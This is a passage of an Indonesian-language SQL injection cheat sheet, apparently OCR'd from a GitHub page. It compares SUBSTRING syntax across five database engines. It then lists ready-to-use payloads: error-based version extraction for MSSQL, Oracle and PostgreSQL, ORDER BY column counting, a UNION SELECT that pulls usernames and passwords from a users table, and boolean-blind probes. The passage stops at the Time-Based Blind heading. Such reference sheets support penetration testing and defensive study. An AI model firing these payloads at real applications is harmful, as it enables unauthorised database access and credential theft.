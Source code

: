 ### c. Substring

| Database   | Sintaks                                   | Contoh                                      |
| ---------- | ----------------------------------------- | ------------------------------------------- |
| MySQL      | `SUBSTRING(string, start, length)`        | `SUBSTRING('abcdef', 2, 3) -> 'bcd'`        |
| PostgreSQL | `SUBSTRING(string FROM start FOR length)` | `SUBSTRING('abcdef' FROM 2 FOR 3) -> 'bcd'` |
| MSSQL      | `SUBSTRING(string, start, length)`        | `SUBSTRING('abcdef', 2, 3) -> 'bcd'`        |
| Oracle     | `SUBSTR(string, start, length)`           | `SUBSTR('abcdef', 2, 3) -> 'bcd'`           |
| SQLite     | `SUBSTR(string, start, length)`           | `SUBSTR('abcdef', 2, 3) -> 'bcd'`           |

---

## 3. Klasifikasi Teknik Eksploitasi

### a. In-band SQLi (Classic SQLi)

#### i. Error-based SQLi

| Deskripsi             | Payload                                                                              |
| --------------------- | ------------------------------------------------------------------------------------ |
| Versi DB (MSSQL)      | `' AND 1=CONVERT(int, @@version) --`                                                 |
| Versi DB (Oracle)     | `' AND 1=UTL_INADDR.GET_HOST_NAME((SELECT banner FROM v$version WHERE ROWNUM=1)) --` |
| Versi DB (PostgreSQL) | `' AND 1=(SELECT CAST(version() AS int)) --`                                         |

#### ii. Union-based SQLi

| Deskripsi            | Payload                                                |
| -------------------- | ------------------------------------------------------ |
| Mencari Jumlah Kolom | `' ORDER BY 1--` _(lanjutkan 2, 3, dst. hingga error)_ |
| Ekstraksi Data       | `' UNION SELECT username, password FROM users --`      |

---

### b. Inferential SQLi (Blind SQLi)

#### i. Boolean-Based Blind

| Deskripsi                          | Payload                                                          |
| ---------------------------------- | ---------------------------------------------------------------- |
| Mengecek karakter pertama versi DB | `' AND (SELECT SUBSTRING(version(),1,1)) = '5' --`               |
| Mengecek panjang nama database     | `' AND (SELECT LENGTH(database())) > 10 --` _(MySQL/PostgreSQL)_ |

#### ii. Time-Based Blind
